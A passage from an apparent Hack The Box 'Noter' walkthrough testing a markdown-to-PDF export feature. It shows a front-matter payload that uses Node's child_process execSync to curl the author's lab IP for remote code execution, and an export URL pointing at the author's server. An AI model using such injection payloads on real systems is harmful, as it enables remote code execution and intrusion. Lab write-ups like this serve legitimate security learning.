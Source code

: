 
In the web I placed the following payload (a markdown payload to execute JS):

```js
---js
((require("child_process")).execSync("curl http://10.10.14.96:5555/"))
---RCE
```

Seems not to work, at the moment.


<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/11_2_500.png" width="90%"/>
</p>


Testing the other export functionality, we can see that the server is making requests to our server... I set up a markdown file and a server to test if the app was vulnerable and actually, it was:

```
http://10.10.14.96:5454/test.md
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/11_3_export_from_cloud.png" width="90%"/>
</p>
